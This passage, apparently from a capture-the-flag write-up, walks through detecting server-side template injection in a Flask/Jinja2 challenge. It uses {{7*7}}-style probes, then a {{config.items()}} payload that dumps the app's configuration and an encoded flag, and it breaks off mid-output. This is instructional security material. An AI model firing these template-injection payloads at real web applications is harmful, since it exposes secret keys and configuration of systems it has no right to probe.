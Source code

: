 ## Finding the vulnerability

After trying several things, [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection) (SSTI) came to mind.

SSTI occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

An easy way to check for SSTI is by using the following graph from PortSwigger:

{{< figure src="/img/adventofctf/16/ssti_graph.png" title="SSTI Graph (by PortSwigger)" >}}

So I followed this graph and got the following results:

`emoji=${7*7}` -> `You entered an unknown emoji: ${7*7}`  
`emoji={{7*7}}` -> `You entered an unknown emoji: 49`  
`emoji={{7*'7'}}` -> `You entered an unknown emoji: 7777777`

This means the server is most likely using either Jinja2 of Twig.

## Exploit

Now that we found the vulnerability, we can start exploiting it. Let's start by getting the config. We can try to get it by entering `{{config}}` or `{{config.items()}}` as the emoji.

{{< code language="python" title="Result" >}}

```python
dict_items([
  ('ENV', 'production'),
  ('DEBUG', True),
  ('TESTING', True),
  ('PROPAGATE_EXCEPTIONS', None),
  ('PRESERVE_CONTEXT_ON_EXCEPTION', None),
  ('SECRET_KEY', Undefined),
  ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)),
  ('USE_X_SENDFILE', False),
  ('SERVER_NAME', None),
  ('APPLICATION_ROOT', '/'),
  ('SESSION_COOKIE_NAME', 'session'),
  ('SESSION_COOKIE_DOMAIN', False),
  ('SESSION_COOKIE_PATH', None),
  ('SESSION_COOKIE_HTTPONLY', True),
  ('SESSION_COOKIE_SECURE', False),
  ('SESSION_COOKIE_SAMESITE', None),
  ('SESSION_REFRESH_EACH_REQUEST', True),
  ('MAX_CONTENT_LENGTH', None),
  ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(seconds=43200)),
  ('TRAP_BAD_REQUEST_ERRORS', None),
  ('TRAP_HTTP_EXCEPTIONS', False),
  ('EXPLAIN_TEMPLATE_LOADING', True),
  ('PREFERRED_URL_SCHEME', 'http'),
  ('JSON_AS_ASCII', False),
  ('JSON_SORT_KEYS', True),
  ('JSONIFY_PRETTYPRINT_REGULAR', True),
  ('JSONIFY_MIMETYPE', 'application/json'),
  ('TEMPLATES_AUTO_RELOAD', None),
  ('MAX_COOKIE_SIZE', 4093),
  ('flag', 'HKQ\x1f\x7f~e|\x06{r9<\x03/3z\x12#Rr )G#*\x14,#dp=Z@AP\x0c*'),
  ('CLD_CONTINUED', 6),
  ('CLD_DUMPED', 3),
  ('CLD_EXITED', 1),
  ('CLD_TRAPPED', 4),
  ('EX_CANTCREAT', 73),
  ('EX_CONFIG', 78),
  ('EX_DATAERR', 65),
```